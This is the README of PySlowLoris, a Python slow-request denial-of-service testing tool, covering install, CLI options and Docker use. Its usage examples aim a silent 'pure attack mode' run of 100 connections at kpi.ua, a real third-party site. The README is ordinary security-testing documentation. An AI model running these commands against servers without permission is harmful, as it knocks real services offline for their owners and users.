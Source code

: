 # PySlowLoris
[![Gitter chat](https://badges.gitter.im/gitterHQ/gitter.png)](https://gitter.im/SlowLoris-dev/Lobby)
[![License](https://img.shields.io/badge/license-MIT%20license-orange.svg)](https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE)
[![Python](https://img.shields.io/badge/python-3.8-blue.svg)](https://github.com/maxkrivich/SlowLoris)
[![Build Status](https://travis-ci.org/maxkrivich/SlowLoris.svg?branch=master)](https://travis-ci.org/maxkrivich/SlowLoris)
[![PyPI version](https://badge.fury.io/py/pyslowloris.svg)](https://badge.fury.io/py/pyslowloris)

PySlowLoris is a tool for testing if your web server is vulnerable to slow-requests kind of attacks. The module is based on python-trio for Asynchronous I/O and poetry for dependency management. The idea behind this approach to create as many connections with a server as possible and keep them alive and send trash headers through the connection. Please DO NOT use this in the real attacks on the servers.

More information about the attack you can find [here].

### Installation

#### PyPi

For installation through the PyPI:

```sh
$ pip install pyslowloris==2.0.1
```
This method is prefered for installation of the most recent stable release.


#### Source-code

For installation through the source-code for local development:
```sh
$ git clone https://github.com/[username]/SlowLoris.git
$ cd SlowLoris
$ pip install poetry
$ pyenv install 3.8.3
$ pyenv local 3.8.3
$ poetry env use 3.8.3
```

### Basic Usage

Available command list:

```sh
$ slowloris --help
usage: slowloris [-h] -u URL [-c CONNECTION_COUNT] [-s]

Asynchronous Python implementation of SlowLoris attack

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Link to a web server (http://google.com) - str
  -c CONNECTION_COUNT, --connection-count CONNECTION_COUNT
                        Count of active connections (default value is 247) - int
  -s, --silent          Ignore all of the errors [pure attack mode] - bool
```

### Docker usage

#### Download image from Docker Hub

Pull the image from [Docker Hub](https://hub.docker.com/r/maxkrivich/pyslowloris/) and run a container:

```bash
$ docker pull maxkrivich/pyslowloris
$ docker run --rm -it maxkrivich/pyslowloris [-h] [-u URL] [-c CONNECTION_COUNT] [-s SILENT]
```

#### Build image from source-code

Also you can build image from [Dockerfile](https://github.com/maxkrivich/SlowLoris/blob/master/Dockerfile) and run a container:

```bash
$ docker build -t pyslowloris .
$ docker run --rm -it pyslowloris [-h] [-u URL] [-c CONNECTION_COUNT] [-s SILENT]
```

**Note:** *Don't forget about 'sudo'!*



### Example of usage

#### How to use module through Python API
Here is an example of usage

```python
from pyslowloris import HostAddress, SlowLorisAttack

url = HostAddress.from_url("http://kpi.ua")
connections_count = 100

loris = SlowLorisAttack(url, connections_count, silent=True)
loris.start()
```

#### How to use module via CLI

The following command helps to use module from command line

```sh
$ slowloris -u http://kpi.ua/ -c 100 -s
```
###### stop execution: Ctrl + C



### Testing

#### Testing with real apache server

```bash
$ docker-compose up web_server -d
$ .....
```

#### Module-tests
```bash
$ make pytest
```

### Bugs, issues and contributing

If you find [bugs] or have [suggestions] about improving the module, don't hesitate to contact me.

### License

This project is licensed under the MIT License - see the [LICENSE](https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE) file for details

Copyright (c) 2017-2020 Maxim Krivich

[here]: <https://en.wikipedia.org/wiki/Slowloris_(computer_security)>
[bugs]: <https://github.com/maxkrivich/SlowLoris/issues>
[suggestions]: <https://github.com/maxkrivich/SlowLoris/issues>
